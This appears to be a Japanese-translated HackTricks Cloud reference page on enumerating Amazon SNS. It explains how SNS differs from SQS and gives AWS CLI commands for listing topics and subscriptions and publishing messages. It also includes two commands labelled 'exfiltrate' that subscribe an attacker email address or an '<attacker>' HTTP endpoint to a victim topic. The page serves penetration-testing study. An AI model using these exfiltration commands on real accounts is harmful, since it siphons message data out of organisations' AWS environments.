 # AWS - SNS Enum

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS)は、**完全に管理されたメッセージングサービス**として説明されています。これは、**アプリケーション間** (A2A) と **アプリケーションから人** (A2P) の通信タイプの両方をサポートしています。

A2A通信の主な機能には、**公開/購読 (pub/sub) メカニズム**が含まれます。これらのメカニズムは、**トピック**を導入し、高スループットの**プッシュベースの多対多メッセージング**を可能にします。この機能は、分散システム、マイクロサービス、およびイベント駆動のサーバーレスアーキテクチャを含むシナリオで非常に有利です。これらのトピックを活用することで、発行システムは**広範囲の購読システム**にメッセージを効率的に配信し、ファンアウトメッセージングパターンを促進できます。

### **SQSとの違い**

**SQS**は、ポイントツーポイント通信を可能にする**キュー型**サービスであり、メッセージが**単一の消費者**によって処理されることを保証します。これは、**少なくとも1回の配信**を提供し、標準およびFIFOキューをサポートし、再試行や遅延処理のためのメッセージ保持を許可します。\
一方、**SNS**は、**公開/購読型サービス**であり、メッセージを**複数の購読者**に同時にブロードキャストすることによって**1対多**通信を可能にします。これは、**電子メール、SMS、Lambda関数、HTTP/HTTPS**などのさまざまなサブスクリプションエンドポイントをサポートし、ターゲットメッセージ配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システム内のコンポーネント間のデカップリングを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動のファンアウト通信パターンを強調しています。

### **列挙**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**トピックがFIFOタイプの場合**、**SQS**プロトコルを使用するサブスクライバーのみが使用できます（HTTPまたはHTTPSは使用できません）。

また、`--topic-arn`にリージョンが含まれていても、**`--region`**で正しいリージョンを指定することを確認してください。そうしないと、アクセス権がないことを示すエラーが表示されますが、問題はリージョンです。
{% endhint %}

#### 認証されていないアクセス

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 権限昇格

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### エクスプロイト後

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 永続性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 参考文献

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
